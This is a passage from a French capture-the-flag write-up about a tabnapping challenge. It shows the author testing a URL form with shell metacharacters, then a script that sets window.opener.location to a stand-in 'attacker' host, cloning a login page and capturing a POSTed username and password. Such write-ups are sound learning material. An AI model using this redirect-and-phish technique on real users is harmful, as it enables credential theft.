 Hmmm... Ce n'est pas un navigateur donc les failles XSS / CSRF semblent tomber à l'eau.  

Ce n'est pas non plus un outil / librairie multi-protocole comme cURL qui aurait pu nous permettre de récupérer des fichiers par le schéma *file://* par exemple. Dans tous les cas la requête est faite en aveugle dans le sens où le site ne nous retourne pas les données récupérées.  

Pas de suppositions hâtives : peut être qu'un navigateur est lancé localement sur la page téléchargée. Je prépare donc une page HTML avec un tag script qui doit charger un fichier JS depuis mon serveur mais toujours pas de touche après plusieurs minutes (le serveur semble laisser un délai entre la soumission d'une URL et son traitement).  

L'utilisation de la librairie python bien connue *Requests* par le serveur laisse penser que tout est traité depuis Python donc pas d'injection de commande possible.  

J'ai toutefois vérifié cela en balançant point virgules, backticks, pipes, ampersand et autres dollars dans l'URL mais rien n'a aboutit.  

C'est dans ces conditions que l'on souhaiterait disposer d'une encyclopédie de tous les types de vulnérabilités pour s'assurer que l'on a rien loupé.  

Faute d'idée j'ai donc cherché un indice sur le challenge pour savoir de quoi il retournait...

Tabnapping
----------

J'ai beau savoir que le nom des challenges sert parfois d'indice et j'ai beau me souvenir de ce qu'est le tabnapping et comment je l'avais trouvé intéressant à l'époque, mes neurones ne se sont pas connectés.  

Le principe du tabnapping et que la victime doit cliquer sur un lien depuis une page web. Le lien s'ouvre dans un nouvel onglet et ce dernier dispose d'un contrôle restreint sur la page (onglet) qui l'a amené là dans le navigateur.  

Via l'utilisation de Javascript la page malicieuse peut changer l'URL de l'onglet d'origine sans que la victime ne s'en aperçoive. Si c'est fait de manière subtile (la nouvelle page est visuellement proche de la page d'origine) ou si l'onglet n'est pas réutilisé avant un moment alors la victime peut penser que le contenu est légitime et ne pensera même pas à vérifier la barre d'adresse.  

On trouve différentes vidéos de démonstration sur YouTube [dont celle-ci](https://www.youtube.com/watch?v=VyaXnBjV-IE).

Du coup j'édite le code HTML suivant et je passe son URL dans le formulaire :  

```html

<html>
    <body>
        <script>window.opener.location="http://attacker/redirected";</script>
```

Après un moment j'obtiens bien une requête sur */redirected* ce qui valide ce scénario.  

Je télécharge la page de login du CTF, modifie l'entrée *action* du formulaire et je la sers en local. Je modifie aussi l'URL qui écrase *window.opener.location*.  

Je lance ensuite Wireshark et soumet l'URL. Au bout de quelques minutes j'ai une requête POST avec ces données:  

```plain
username=daniel&password=C%40ughtm3napping123
```
